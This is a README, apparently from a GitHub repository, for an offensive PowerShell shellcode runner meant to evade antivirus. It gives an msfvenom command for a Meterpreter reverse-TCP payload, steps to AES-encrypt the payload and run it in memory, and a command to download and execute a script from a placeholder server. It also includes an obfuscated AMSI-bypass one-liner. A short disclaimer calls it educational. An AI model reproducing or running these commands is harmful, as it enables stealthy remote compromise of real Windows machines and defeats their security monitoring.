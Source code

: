 # PowerShell Shellcode Runner with AES-256 Encryption

This repository provides a **PowerShell-based shellcode runner** that executes **AES-256 encrypted shellcode** in memory while bypassing AMSI and antivirus detection.

## 🚀 Features
- **Memory-based shellcode execution** (fileless)
- **AES-256 CBC encryption** for obfuscation
- **AMSI bypass** to evade detection
- **Base64 encoding for seamless integration**

---

## 1️⃣ Generate Shellcode (Metasploit)

Use `msfvenom` to generate a **raw shellcode payload**:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f raw > shellcode.bin
```

---

## 2️⃣ Encrypt the Shellcode (Python)

Use the **Python script** to encrypt the shellcode using **AES-256 CBC** and encode it in Base64.

```bash
python3 encrypt.py
```

The encrypted shellcode will be **outputted in Base64 format**, ready to be embedded in the PowerShell script.

---

## 3️⃣ Execute Shellcode in Memory (PowerShell)

Run the **PowerShell script** to:
- **Bypass AMSI** (Antimalware Scan Interface)
- **Decrypt and execute the shellcode in memory**

```powershell
powershell -ExecutionPolicy Bypass -NoProfile -File run.ps1
```

---

## 4️⃣ Remote Execution of the PowerShell Script

To **remotely download and execute** the script:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://YOUR_SERVER_IP/run.ps1")
```

If **blocked by AV**, use an AMSI bypass:

```powershell
powershell -ExecutionPolicy Bypass -NoProfile -Command "$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344); IEX (New-Object Net.WebClient).DownloadString('http://YOUR_SERVER_IP/run.ps1')"
```

---

## 🔐 Disclaimer
This repository is intended **for educational and research purposes only**. Unauthorized use of this tool is **strictly prohibited**. The author assumes no responsibility for any misuse.

---

## 🛠️ Summary
✔ **Metasploit-generated shellcode is encrypted using AES-256**  
✔ **PowerShell decrypts and executes the shellcode in memory**  
✔ **AMSI bypass included to evade detection**  
✔ **Remote execution supported**  

